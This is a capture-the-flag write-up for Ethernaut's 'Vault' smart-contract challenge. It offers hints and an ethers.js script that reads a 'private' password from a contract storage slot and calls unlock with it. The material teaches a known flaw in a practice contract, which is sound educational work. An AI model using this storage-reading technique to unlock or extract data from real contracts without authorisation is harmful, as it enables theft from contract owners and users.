 ```yaml
---
description: In Ethernaut's Vault, we look at how "private" on-chain data really is.
---
```


# 8 - Vault

### Hints

<details>

<summary>Hint One</summary>

The `password` is a private state variable in the challenge contract, which means Solidity has not generated a public getter method for it. However, nothing on the blockchain is truly inaccessible. Contracts store their state variables in storage “slots”. What is the layout of these state variables in storage? How do you determine which variable has been stored in which slot?

</details>

<details>

<summary>Hint Two</summary>

After determining which storage slot the `password` variable is stored in, you’ll likely want to use a library such as Ethers or Web3 to get the storage at that slot so you can submit it to the contract’s `unlock` function and solve the challenge.

</details>

### Notes

Variables are stored in "slots" - often slot index position starting from 0, by variable, but Ethereum tries to make storage as efficient as possible and may mix this up.&#x20;

### Scripted Solution

```javascript
const fs = require('fs')
const ethers = require('ethers')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { provider, contract: vaultContract } = await setup('Vault')

  // Get contract `locked` variable
  console.log(`Contract locked: ${await vaultContract.locked()}.`)

  // Get `password` from contract storage slot
  console.log('Getting password from contract storage...')
  const passwordSlot = 1
  const password = await provider.getStorageAt(
    vaultContract.address,
    passwordSlot
  )
  console.log(
    `Password to utf-8 string: ${ethers.utils.toUtf8String(password)}`
  )

  // Unlock vault by calling `unlock` with password
  console.log('Unlocking vault with password...')
  const vaultUnlock = await vaultContract.unlock(password)
  vaultUnlock.wait(1)

  // Confirm vault is unlocked
  console.log(`Contract locked: ${await vaultContract.locked()}.`)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
